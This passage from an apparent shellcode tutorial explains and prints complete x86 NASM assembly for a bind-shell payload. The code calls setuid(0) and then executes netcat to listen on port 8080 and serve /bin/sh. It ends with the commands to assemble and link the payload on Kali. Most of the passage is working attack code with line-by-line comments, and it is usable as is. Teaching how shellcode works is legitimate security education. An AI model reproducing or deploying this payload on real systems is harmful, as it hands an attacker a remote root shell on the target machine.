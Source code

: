 The stack should look like this:
![stack](/images/stack.png)

So *ebx*{: style="color: LightGreen"} already points to the *filename*{: style="color: LightGreen"} */bin//nc*{: style="color: LightSalmon"},
*ecx*{: style="color: LightGreen"} points to the array with the arguments and *edx*{: style="color: LightGreen"} is null, 
ready to be used as *envp[]*{: style="color: LightGreen"}. The only thing left is to load the *execve*{: style="color: LightGreen"} system call number
in *eax*{: style="color: LightGreen"} and execute the syscall.

```nasm
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
```

And the whole assemby code:
```nasm
section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
  
  xor edx, edx      ; Use edx as null byte
  
  push edx          ; null termination for '/bin//nc'
  push 0x636e2f2f   ; cn//
  push 0x6e69622f   ; nib/
  mov ebx, esp      ; Now ebx points to the '/bin//nc' string
  
  push edx          ; null termination for '-lp8080'
  push byte 0x30    ; 0
  push word 0x3830  ; 80
  push 0x38706c2d   ; 8pl-
  mov eax, esp      ; Now eax points to the '-lp8080' string
  
  push edx          ; null termination for '-e/bin/sh'
  push byte 0x68    ; h
  push 0x732f6e69   ; s/ni
  push 0x622f652d   ; b/e-
  mov ecx, esp      ; Now ecx points to the '-e/bin/sh' string
  
  push edx  ; null termination for the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  push ecx  ; points to '-e/bin/sh'
  push eax  ; points to '-lp8080'
  push ebx  ; points to '/bin//nc'
  mov ecx, esp ; Now ecx points to the beginning of the array ['/bin//nc', '-lp8080', '-e/bin/sh']
  
  push 0xb  ; 11 (0xb) is the syscall number of execve
  pop eax   ; load 0xb in eax
  int 0x80  ; call execve('/bin//nc', ['/bin//nc', '-lp8080', '-e/bin/sh'], 0)
```
## Testing time
Save the file and compile it. I saved mine as *shellcode-c137.asm*{: style="color: LightGreen"}
```bash
root@kali:~# nasm -f elf  shellcode-c137.asm
root@kali:~# ld -m elf_i386 -s -o shellcode-c137 shellcode-c137.o
```